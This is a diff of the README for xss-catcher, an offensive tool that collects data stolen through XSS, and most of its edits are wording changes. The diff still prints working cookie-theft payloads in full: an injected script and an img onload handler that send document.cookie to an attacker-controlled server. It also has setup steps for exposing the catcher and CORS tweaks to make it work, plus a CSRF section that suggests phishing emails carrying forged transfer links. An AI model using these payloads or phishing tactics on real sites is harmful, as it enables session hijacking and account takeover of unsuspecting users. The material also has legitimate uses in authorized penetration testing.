

Before and after one commit to ivan-sincek/xss-catcher, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -32,7 +32,7 @@ Future plans:
 
 Import [\\db\\xss_catcher.sql](https://github.com/ivan-sincek/xss-catcher/blob/master/db/xss_catcher.sql) to your database server.
 
-Copy all the content from [\\src\\](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP).
+Copy all the content from [\\src\\](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g., to \\xampp\\htdocs\\ on XAMPP).
 
 Change the database settings inside [\\src\\php\\config.ini](https://github.com/ivan-sincek/xss-catcher/blob/master/src/php/config.ini) as necessary.
 
@@ -42,7 +42,7 @@ You can use [ngrok](https://ngrok.com) to give your web server a public address.
 
 ---
 
-If callback HTTP requests are being blocked, try setting the following cross-origin resource sharing \([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)\) policy in your web server's configuration file; e.g. on XAMPP, edit `\conf\httpd.conf` from your Apache directory:
+If callback HTTP requests are being blocked, try setting the following cross-origin resource sharing \([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)\) policy in your web server's configuration file; e.g., on XAMPP, edit `\conf\httpd.conf` from your Apache directory:
 
 ```fundamental
 <IfModule mod_headers.c>
@@ -53,9 +53,11 @@ If callback HTTP requests are being blocked, try setting the following cross-ori
 </IfModule>
 ```
 
-The same is already set in [\\src\\.htaccess](https://github.com/ivan-sincek/xss-catcher/blob/master/src/.htaccess), but depending on your web server's current configuration, it might be ignored.
+However, using the above policy, your web server will not be receiving any HTTP cookies in the `Cookie` HTTP request header; but, you can still send them in the `data` HTTP request parameter.
 
-Keep in mind that the following CORS policy cannot be used together:
+The above policy is already set in [\\src\\.htaccess](https://github.com/ivan-sincek/xss-catcher/blob/master/src/.htaccess), but depending on your web server's current configuration, it might be ignored or overriden.
+
+If you want cookies to be sent in the `Cookie` HTTP request header, keep in mind that the following CORS parameters CANNOT go together:
 
 ```fundamental
 Access-Control-Allow-Origin: *
@@ -109,11 +111,11 @@ Steal HTTP cookies by injecting the following JavaScript code:
 <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com', true); xhr.send('{\"site\": \"' + encodeURIComponent(location.hostname + location.pathname) + '\", \"data\": \"' + encodeURIComponent(document.cookie) + "\"}");</script>
 ```
 
-First example above will send an HTTP POST request to your server with user-defined parameters as a form-data. Opt for this example whenever possible.
+First payload above will send an HTTP POST request to your server with user-defined parameters as a form-data. Opt for this payload whenever possible.
 
 To send user-defined parameters as a form-data, you must add `Content-Type: application/x-www-form-urlencoded` HTTP request header.
 
-Second example above will send an HTTP POST request to your server with raw data encoded in JSON.
+Second payload above will send an HTTP POST request to your server with raw data encoded in JSON.
 
 ---
 
@@ -125,15 +127,15 @@ Steal HTTP cookies by injecting the following HTML code:
 <img src="https://github.com/favicon.ico" onload="this.src = 'https://myserver.com?site=' + encodeURIComponent(location.hostname) + location.pathname + '&data=' + encodeURIComponent(document.cookie);" hidden="hidden">
 ```
 
-First example above will send an HTTP POST request to your server with user-defined parameters as a form-data.
+First payload above will send an HTTP POST request to your server with user-defined parameters as a form-data.
 
-Second example above will send an HTTP GET request to your server with user-defined parameters in a query string (i.e. in a URL).
+Second payload above will send an HTTP GET request to your server with user-defined parameters in a query string (i.e., in a URL).
 
 ## Cross-Site Request Forgery (CSRF)
 
-Not necessarily used to steal HTTP cookies or to modify a web page. The goal is to just execute a forged query in the name of an already signed-in user.
+Not necessarily used to steal HTTP cookies or to modify a web page. The goal is to just execute a forged query in the name/session/context of an already signed-in user.
 
-The simplest way to do so, is to send aphishing email containing a link such as `https://target.com/transfer.php?recipient=eve&amount=9000` (limited to HTTP GET request) to the victim or to store/hide a malicious code in either your target's website or your own website, and then send the less suspicious link.
+The simplest way to do so, is to send a phishing email containing a link such as `https://target.com/transfer.php?recipient=eve&amount=9000` (limited to HTTP GET request) to the victim or to store/hide a malicious code in either your target's website or your own website, and then send the less suspicious link.
 
 **Try to figure out what kind of data does a backend server accept before you try to forge/send anything. Is it a query string, form-data, raw data encoded in JSON, etc.?**
 
````
Also changed, not shown: other parts of README.md (+15 -15 lines).
